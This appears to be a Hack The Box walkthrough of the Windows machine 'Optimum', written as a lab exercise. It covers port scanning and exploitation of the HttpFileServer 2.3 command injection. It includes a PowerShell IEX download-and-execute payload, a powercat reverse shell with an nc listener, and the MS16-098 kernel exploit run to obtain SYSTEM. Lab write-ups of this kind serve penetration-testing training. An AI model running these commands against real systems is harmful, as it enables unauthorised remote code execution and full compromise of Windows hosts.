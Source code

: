 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [HttpFileServer httpd 2.3](#httpfileserver-httpd-23)
- [Foothold](#foothold)
	- [HttpFileServer 2.3 Command Injection](#httpfileserver-23-command-injection)
	- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
	- [RGNOBJ Integer Overflow](#rgnobj-integer-overflow)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

Port 80 is running service HttpFileServer version 2.3.

![](images/2.png)

Search public exploit

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer 2.3 Command Injection

Using exploit `windows/webapps/49125.py` to sent command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

This exploit successfully execute command ping in the server

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

At the listener, I have reverse shell

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

## Privilege Escalation

### RGNOBJ Integer Overflow

Enum systeminfo in the server and save the output to file `win-server-2012-6.3.9600.txt`

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

Check the output using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

With System Type is x64-based, the vunerable `MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466)` may work in the server. Let's download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Upload file `41020.exe` to windows Server using power shell

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

Execute file `41020.exe` and we have system.

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```